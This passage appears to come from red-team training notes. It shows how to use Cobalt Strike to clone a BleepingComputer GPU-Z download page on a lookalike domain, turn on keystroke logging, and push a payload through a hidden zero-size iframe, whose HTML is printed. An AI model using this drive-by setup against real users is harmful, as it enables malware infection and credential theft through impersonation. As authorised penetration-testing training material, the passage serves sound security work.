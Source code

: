 The techniques described above typically require the red team to build a legitimate looking website on a standalone web server (e.g. running Apache or Nginx) and manually backdoor one or more pages with the smuggling code.  Cobalt Strike has it's own drive-by capabilities, although it doesn't use smuggling.  It can clone a legitimate website and then embed a URL that the target's browser will automatically download without needing a user to click anything on the page.

In this example, I'm going to clone [https://www.bleepingcomputer.com/download/gpu-z/](https://www.bleepingcomputer.com/download/gpu-z/) which looks something like this:

![[Pasted image 20250702203737.png]]

We want a user to visit a page that looks like this, but also have it automatically download our initial access package to their computer.

### Host File

The first thing to do is host the file to download on Cobalt Strike's internal web server, via **Site Management > Host File**.

![[Pasted image 20250702203809.png]]

Where:

- **File** is the original file to upload.  This is your initial access package (although I'm just using a raw executable payload in this example).
    
- **Local URI** is the URI that Cobalt Strike's web server will make this file available on.  I'm using `/dl/windows/utilities/system-information/g/gpu-z/GPU-Z.2.22.0.exe`.
    
- **Local Host** sets the URL for the hosted file.  It default's to the team server's public IP address but we're using a lookalike domain instead.  This domain obviously needs to point to the public IP of the team server (or a redirector that can redirect the HTTP request to the team server).
    
- **Local Port** defines the port that the file will be hosted on.
    
- **Mime Type** sets the _Content-Type_ that Cobalt Strike's built-in web server will serve the file as.  Leaving it set to automatic will let it decide the best type to use based on the file extension.

Once hosted, it will appear in the Sites manager (**Site Management > Manage**).

![[Pasted image 20250702203947.png]]

Highlighting the row and clicking the **Copy URL** button will place a URL in your clipboard.  In this example it will be _http://www.bleepincomputer.com:80/dl/windows/utilities/system-information/g/gpu-z/GPU-Z.2.22.0.exe_.

### Clone Site

The next step is to create the site clone and embed the above file into it (**Management > Clone Site**).

![[Pasted image 20250702204021.png]]

Where:

- **Clone URL** is the exact page that we want to clone.  The page we're cloning is _https://www.bleepingcomputer.com/download/gpu-z/_.
    
- **Local URI** is the URI that the team server will host this cloned page on.  We generally want to match this with the URI of the page we're cloning.
    
- **Local Host** and **Port** is as above. 
    
- **Attack** is the resource you want to embed in the cloned page.  Use the **...** button to select any resource that is hosted on Cobalt Strike's team server.
    
- **Log keystrokes** will send any key presses on the cloned site to Cobalt Strike's web log.  This is useful if the cloned page has a login form for instance.

Once cloned, you will get another URL back, which is a concatination of the local host, local port, and local uri:  _http://www.bleepincomputer.com:80/download/gpu-z/_.

This is the URL to send to a user.  When visited, they will see the cloned GPU-Z page and the browser will automatically download our payload as _GPU-Z-2.22.0.exe_.

![[Pasted image 20250702204208.png]]

This works by embedding a hidden iframe into the cloned page where the source is the URL of the hosted file:

```html
<IFRAME SRC="http://www.bleepincomputer.com:80/dl/windows/utilities/system-information/g/gpu-z/GPU-Z.2.22.0.exe?id=null" WIDTH="0" HEIGHT="0"></IFRAME>
```